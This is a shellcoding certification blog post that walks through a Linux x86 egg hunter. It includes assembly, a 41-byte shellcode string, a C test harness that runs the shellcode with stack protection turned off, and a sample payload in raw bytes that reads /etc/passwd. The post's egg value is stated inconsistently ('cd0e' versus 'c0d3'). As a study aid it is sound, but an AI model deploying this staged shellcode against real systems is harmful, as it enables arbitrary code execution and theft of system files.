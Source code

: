 # Project 3: Egg hunter

- Study about the Egg Hunter shellcode
- Create a working demo of the Egghunter
- Should be configurable for different payloads




# What is an egg hunter?

A really good blog post by a previous student [H0mbre](https://h0mbre.github.io/SLAE_Egg_Hunter/) does a really great job consolidating information on egg hunters. Of note, he mentions [this paper](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf) which defines a few techniques for writing an egg hunter. When searching egg hunters online, you will see a lot of examples using the [access()](https://man7.org/linux/man-pages/man2/access.2.html) method check for validating linux pages of memory that are readable such as [this one](https://rastating.github.io/creating-an-egg-hunter/) by rastating and another on [infosecwriteups](https://infosecwriteups.com/expdev-egghunter-linux-implementation-49154ff4d225) by bigb0ss. Conversely, I only found a few egg hunters using the `sigcheck()` method to check for valid memory without receiving SIGSEGV signal. That said, I did find one example of it's use by [mmquant](https://mmquant.net/egg-hunters-on-linux/#egghunter_example_sigaction). I mention this to point out a few techniques for finding eggs without throwing exceptions from trying to read memory in inaccessable addresses.

In short, an egg hunter is a two stage payload when you have limited buffer space for your overflow. If you can insert the main payload somewhere in memory, you can use a small egg hunter to search for that main payload and execute it. For more specific details, please refer to the links above. 

For this assignment I will walk through the `access()` egg hunter methodology. I will use the egg `"cd0e" or 0x65643063 (little endian)` as it seems [epi](https://epi052.gitlab.io/notes-to-self/blog/2020-05-18-osce-exam-practice-part-three/#mona-py-egg) has found it to work better than some other eggs such as `"W00T"` and it's a bit funner than random characters.


# Egg Hunter Assembly 

After playing with H0mbre's code as a means of learning, I wanted to change the assembly a bit so it's not a copy paste. That said, the assembly is pretty much the basic method of doing an `access()` egg hunter. I also didn't want to insert a bunch of junk statements just to make the assembly different. Thus, I only made a couple changes.

The first change was to replace the `mov ebx, <egg>` with `mov esi, <egg>`. Thus, I now store my egg in the `esi` regsiter instead of `ebx`. Because of this, I was able to remove the `pushad` and `popad` instructions as a means of saving registers since my egg was not constantly overwritten with the first argument of the access() call. 

Now that the `pushad/popad` instructions are removed, the only register that keeps getting overwritten is `eax` which holds the return value of the access() call. Usuall 0xfffffff2 or 0xfffffffb. To remedy this, I changed the `mov al, 0x21` to a `push 0x21; pop eax`. This will not add null bytes to my assembly and will effectively reset the eax register with the proper value. 

These changes result in a shellcode that is 1 byte less than the original. 

However, this shellcode did not work. After some debugging, the rather obvious answer appeared. The shellcode eventually jumps to the address in `edx` which holds our egg. What I need to do is jump past the egg to the actual instructions to execute. To do this, a simple `add edx, 0x8` is inserted right before `jmp edx` and the shellcode executes flawlessly. 

Since I want the egg to be `c0d3`, I make the egg stored in register `esi` set to `0x33643063` (3d0c)... which is `c0d3 | 0x63306433` in little endian.

The final assembly is as follows:

```assembly
global _start

section .text
_start:
    mov esi, 0x33643063	; egg ("c0d3"), backwards in little endian = "3d0c" = 0x33643063
    xor ecx, ecx		
    mul ecx             ; set eax and edx to 0

page_forward:		    ; here, we're going to design a function of what to do if we get an EFAULT error
    or dx, 0xfff		; doing a bitwise logical OR against the $dx value
                        ; dx=4095 ; 0x1000 - 1 (4095) ; Page sizes in Linux x86 = 4096

address_check:		    ; here we're going to design a function to check the next 8 bytes of mem
    inc edx			    ; gets $edx to a nice multiple of 4096
    lea ebx, [edx+4]	; load [edx+4] to check if this fresh page is readable by us
    push 0x21		; access()
    pop eax
    int 0x80

    cmp al, 0xf2		; does the low-end of $eax equal 0xf2? did we get an EFAULT? 
    jz page_forward		; if we got an EFAULT, this page is unreadable, time to go to the next page!

    cmp [edx], esi		; is what is stored at the address of $edx our egg (0x65643063) ?
    jnz address_check	; if it's not, let's advance into the page and see if we can't find that pesky egg
    
    cmp [edx+4], esi	; we found our egg once, let's see if it's also in $edx + 4
    jnz address_check	; we found it once but not twice, have to keep looking
    
    add edx, 0x8        ; jump past our egg to our actual shellcode
    jmp edx			    ; we found it twice! go to edx (where our egg is) +8 and execute the code there! 
```


Shellcode (Length: 41 bytes):

```c
"\xbe\x63\x30\x64\x33\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\x39\x32\x75\xef\x39\x72\x04\x75\xea\x83\xc2\x08\xff\xe2"
```

# Testing

To test, the shellcode can be executed with dynamic payloads using this egg_hunter_test.c program:

```c
#include <sys/mman.h>
#include <stdio.h>
#include <string.h>

unsigned char hunter[] = "\xbe\x63\x30\x64\x33\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\x39\x32\x75\xef\x39\x72\x04\x75\xea\x83\xc2\x08\xff\xe2";
unsigned char code[] = "\x63\x30\x64\x33\x63\x30\x64\x33\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\xcd\x80\x93\x91\xb0\x03\x66\xba\x01\x10\x4a\xcd\x80\x92\x29\xc0\xb0\x04\xb3\x01\xcd\x80\xb0\x01\xcd\x80";
	

int main(){
    printf("Hunter length: %d\n", strlen(hunter));
    printf("Shellcode length: %d\n", strlen(code));


    int r =  mprotect((void *)((int)hunter & ~4095),  4096, PROT_READ | PROT_WRITE|PROT_EXEC);
    printf("mprotect: %d\n",r);
    int (*ret)() = (int(*)())hunter;
    return ret();
    // return 1;
}
```

Of note is that the `code` variable can be any payload you want, just ensure it is prepended with the egg twice `\x63\x30\x64\x33\x63\x30\x64\x33` (c0d3c0d3).

Compile and run using 

```bash
gcc -fno-stack-protector -z execstack -m32 egg_hunter_test.c -o egg_hunter 
./egg_hunter
```


# Certification Requirements

This blog post has been created for completing the requirements of the SecurityTube/PentesterAcademy [x86 Assembly Language and Shellcoding on Linux (SLAE)](https://www.pentesteracademy.com/course?id=3) certification:

Student ID: SLAE-alecjmaly
